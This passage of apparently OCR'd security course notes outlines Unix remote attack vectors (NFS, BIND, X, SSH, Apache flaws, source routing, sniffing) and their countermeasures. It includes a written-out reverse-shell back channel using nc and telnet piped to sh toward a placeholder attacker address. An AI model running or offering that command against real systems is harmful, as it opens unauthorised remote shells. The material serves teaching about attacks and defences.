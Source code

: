                  - Patch
                 - Use secure RPC
             - NFS (network filesystem): access remote filesystem through the network
               - A lot of buffer overflows
               - If misconfigured could be very bad
               - Countermeasures
                 - Authorization
                 - Never add localhost in the list of allowed to mount systems, dangerous
                 - Export "safe" directories
             - BIND
               - Buffer overflows
               - DNS cache poisoning
               - Countermeasures
                 - Disable
                 - Patch
                 - Run as unprivileged user
                 - Run in a jailed environment
             - X insecurities
               - Can capture keystrokes
               - Can send keystrokes
               - Capture windows
               - Tools
                 - `xscan`: scan a net for an open X server
                 - `xwatchwin`: see the windows users have opened
               - Countermeasures
                 - Avoid using this
             - SSH
               - Vulnerabilities, buffer overflows
               - Example: [heartbleed](https://heartbleed.com/) (OpenSSL)
               - Countermeasures: update
             - Apache
               - Vulnerabilities, buffer overflows
               - Check for misconfigurations and public directories
               - Countermeasures: update
             - ...
       - Using a mirror inside the net: route through unix system
         - Source routing: sender can specify the route the packet should take through the network (bypass firewall)
       - User-initiated remote execution: trick a user executing code, surfing to a website or launching malicious e-mail attachments
         - Goal: remote command execution (RCE)
           - Back channel: get the machine open a connection to you
             - How
               - Attacker `nc -lvnp 80`
               - Victim: `telnet <attacker-addr> <attacker-port-input> | sh | telnet <attacker-addr> <attacker-port-output>`
             - Countermeasuers
               - Firewall
               - Remove permissions to possibly dangerous files
               - ...
       - Promiscuous-mode attacks: sniffing packets/packet injection
         - Eavesdropping traffic
         - Exploit softwares listening for packets, handcraft malicious packet
  2. Privilege escalation/local access
     - Weak passwords
       - `/etc/passwd` format
